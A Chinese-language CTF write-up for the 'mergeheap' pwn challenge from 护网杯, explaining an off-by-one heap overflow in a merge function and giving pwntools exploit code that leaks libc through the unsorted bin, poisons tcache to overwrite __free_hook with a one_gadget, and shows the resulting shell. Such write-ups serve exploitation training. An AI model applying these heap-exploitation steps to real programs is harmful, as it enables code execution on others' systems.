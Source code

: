 ```yaml
---
layout: post
title: 护网杯mergeheap writeup
categories: ctf
tags:  off-by-one pwn tcache
author: jcxp
---
```


## 前言
这道题考察的是堆溢出在高版本的`libc`的利用方式,在高版本的`libc`中引入了`tcache`机制
>  tcache是libc2.26之后引进的一种新机制，类似于fastbin一样的东西，每条链上最多可以有 7 个 chunk，free的时候当tcache满了才放入fastbin，unsorted bin，malloc的时候优先去tcache找到对应大小的chunk.

## 漏洞分析

在`merge`这个功能中,当分配的堆块占用了下一`chunk`的`pre_size`位时，`strcpy`的时候会将下一`chunk`的`size`也复制，再配合`strcat`会溢出一个字节,`merge`部分函数代码如下

```c
int sub_E29()
{
  int v1; // ST1C_4
  signed int i; // [rsp+8h] [rbp-18h]
  signed int v3; // [rsp+Ch] [rbp-14h]
  signed int v4; // [rsp+10h] [rbp-10h]

  for ( i = 0; i <= 14 && qword_2020A0[i]; ++i )
    ;
  if ( i > 14 )
    return puts("full");
  printf("idx1:");
  v3 = sub_B8B();
  if ( v3 < 0 || v3 > 14 || !qword_2020A0[v3] )
    return puts("invalid");
  printf("idx2:");
  v4 = sub_B8B();
  if ( v4 < 0 || v4 > 14 || !qword_2020A0[v4] )
    return puts("invalid");
  v1 = dword_202060[v3] + dword_202060[v4];
  qword_2020A0[i] = malloc(v1);
  strcpy((char *)qword_2020A0[i], (const char *)qword_2020A0[v3]);
  strcat((char *)qword_2020A0[i], (const char *)qword_2020A0[v4]);
  dword_202060[i] = v1;
  return puts("Done");
}
```


## 漏洞利用


- 首先,填满`tcache`的链表,再分配一个`unsortbin`的`chunk`然后`free`,此时的`fd`和`bk`会存放`main_arena`的地址,然后`malloc`一个小`chunk`把`fd`填满,就可以泄露`main_arena`的地址了,代码如下:  

```python
add(200,200*'a')#0
add(200,200*'a')#1
add(200,200*'a')#2
add(200,200*'a')#3
add(200,200*'a')#4
add(200,200*'a')#5
add(200,200*'a')#6
add(200,200*'a')#7
add(200,200*'a')#8
add(200,200*'a')#9

for i in range(7):
	dele(i+1)#1-7

dele(8)#8

for i in range(7):
	add(200,200*'e')

add(8,'bbbbbbbb')

show(8)

p.recvuntil('bbbbbbbb')


leak=u64(p.recv(6).ljust(8,'\x00'))

log.info("leak=%s"%hex(leak))

libc_base=leak-288-0x10-libc.symbols['__malloc_hook']

log.info("libc_base=%s"%hex(libc_base))

```

此时堆栈的结构如下:

```c
pwndbg> x /10gx 0x5555557578f0-0x30
0x5555557578c0:	0x6565656565656565	0x6565656565656565
0x5555557578d0:	0x6565656565656565	0x0000000000000021  //chunk8
0x5555557578e0:	0x6262626262626262	0x00007ffff7dcfd60
0x5555557578f0:	0x6161616161616161	0x00000000000000b1
0x555555757900:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
pwndbg> 

```
可以看到`chunk8`已经可以泄露`main_arena`的地址了

- 然后把`unsortedbin`填满,之后利用`tcache`形成两个链表,修改链表的`fd`到`__free_hook`,然后,再`malloc`,就可以`getshell`  


```python 
add(0xa0,0xa0*'a')

for i in range(7):
	dele(i+1)#1-7
gdb.attach(p,"b* 0x555555554A3A\n")
add(0x68,'aa')  #1
add(0x28,'b'*0x28)  #2
add(0x40,'d'*0x3f+'\x81')  #3
add(0x60,'c') #4
#raw_input('1')

dele(1)
merge(2,3)
dele(2)
dele(3)

one_gadget = libc_base + 0x4f322
free_hook = libc_base + 0x3ed8e8
log.info("free_hook=%s"%hex(free_hook))


add(0x70,'a'*0x20+p64(0)+p64(0x51)+p64(free_hook))
add(0x40,'b')
add(0x40,p64(one_gadget))
dele(0)
p.interactive()

```

下面的结构可以看到我们成功修改到了`__free_hook`的地址

```c 
pwndbg> bins 
tcachebins
0x50 [  1]: 0x555555757b20 —▸ 0x7ffff7dd18e8 (__free_hook) ◂— ... //free_hook
0xd0 [  7]: 0x555555757330 —▸ 0x555555757400 —▸ 0x5555557574d0 —▸ 0x5555557575a0 —▸ 0x555555757670 —▸ 0x555555757740 —▸ 0x555555757810 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 

```



- `getshell`效果如下  


```c 
$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x5 bytes:
    'jcxp\n'
jcxp
$  

```